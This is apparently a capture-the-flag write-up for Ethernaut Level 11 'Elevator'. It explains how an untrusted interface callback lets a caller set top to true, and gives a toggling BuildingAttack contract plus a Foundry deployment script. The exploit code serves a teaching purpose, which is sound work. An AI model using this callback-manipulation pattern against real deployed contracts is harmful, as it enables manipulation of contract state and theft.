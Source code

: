 # Ethernaut Level 11 Elevator

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Our goal is to "reach the top", making `top` to be `true`. We can see that `top` is initialized as `false`. According to the logic in the function `goTo(uint256 _floor)`, we cannot modify the state of `top` if `building.isLastFloor(uint256)` returns same result for same floor. More precisely, if we can find a way that `building.isLastFloor(uint256)` returns `false` for the first time being called and then returns `true` for the second time, we can achieve our goal.

So we can inherit from `Building` interface and implement the logic:

`BuildingAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Building} from "./Elevator.sol";
import {Elevator} from "./Elevator.sol";

contract BuildingAttack is Building {
    Elevator elevator;
    bool toggle;

    constructor(address _elevatorAddress) {
        elevator = Elevator(_elevatorAddress);
        toggle = true;
    }

    function isLastFloor(uint256) external returns (bool) {
        toggle = !toggle;
        return toggle;
    }

    function attack() external {
        elevator.goTo(10);
    }
}
```

In this attack contract, we just use a `toggle` to change the returns in a simple way. However, we changed the state since `toggle` is a state variable. If the function declaration in the interface is restricted to `view` or `pure`, we can use a different logic like `return gasleft() < SOME_THRESHOLD;` to acheive the same goal.

`Elevator.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Elevator} from "../src/Elevator.sol";
import {BuildingAttack} from "../src/BuildingAttack.sol";

contract ElevatorScript is Script {
    Elevator elevator = Elevator(0xXXXXXXXXXXXX);

    function run() external {
        vm.startBroadcast();
        BuildingAttack buildingAttack = new BuildingAttack(address(elevator));
        buildingAttack.attack();
        vm.stopBroadcast();
        console.log("Elevator is at the top floor:", elevator.top());
    }
}
```

